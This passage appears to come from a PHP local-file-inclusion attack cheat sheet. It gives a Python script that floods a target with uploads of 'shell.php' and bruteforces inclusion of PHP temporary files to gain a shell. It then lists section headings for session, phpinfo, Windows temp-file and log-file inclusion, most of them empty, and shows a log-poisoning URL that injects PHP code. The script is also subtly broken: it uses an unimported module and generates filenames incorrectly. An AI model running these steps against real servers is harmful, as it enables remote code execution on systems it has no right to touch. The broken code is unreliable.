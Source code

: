 It requires php interpreter that crashes upon infinite recursive inclusion, thus not removing temporary file.

1. Upload a file and trigger a self-inclusion
2. Repeat step 1 until successful attack
3. Bruteforce inclusion of /tmp/php[0-9a-zA-Z]{6}
4. Shell

We have 62**6 possible values -> 56800235584  filenames for temporary uploaded files
Birthday paradox can be applied and it results with about 280000 requests to find valid file with more than 50% chance.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

It is possible to send 20 files in one request that will be accepted by the server.

## 7) Session文件包含

## 8) phpinfo()脚本包含
## 9) 临时文件包含 - Windows

## 10) Logs日志包含

```
http://localhost:88/index.php?a=/home/wwwlogs/access.log
```

访问

```
http://192.168.43.101/?=&lt;?php phpinfo();?&gt;
```
